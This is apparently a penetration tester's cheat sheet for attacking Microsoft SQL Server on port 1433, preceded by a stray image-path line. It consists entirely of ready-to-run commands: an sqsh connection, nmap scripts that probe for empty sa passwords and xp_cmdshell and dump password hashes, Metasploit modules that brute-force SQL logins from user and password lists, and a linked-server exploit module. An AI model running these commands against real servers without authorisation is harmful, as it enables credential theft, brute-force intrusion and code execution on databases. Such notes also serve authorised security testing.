 # msssql

% mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/ldap  #port/1433 

## mssql - connect
#cat/ATTACK/CONNECT 
```
sqsh -S <ip> -U <user>
```

## mssql - enum
#cat/RECON
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <ip>
```

## mssql - enum sql login
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use admin/mssql/mssql_enum_sql_logins; set RHOSTS <ip>; set USER_FILE <user_file>; set PASS_FILE <pass_file>; run"
```

## mssql - enum configuration setting (xp-cmdshell)
#cat/RECON 
```
msfconsole -x "use auxiliary/admin/mssql/mssql_enum; set RHOST <ip>; set password <password>; run"
```

## mssql link crawler
#cat/ATTACK/EXPLOIT 
```
msfconsole -x "use exploit/windows/mssql/mssql_linkcrawler"
```
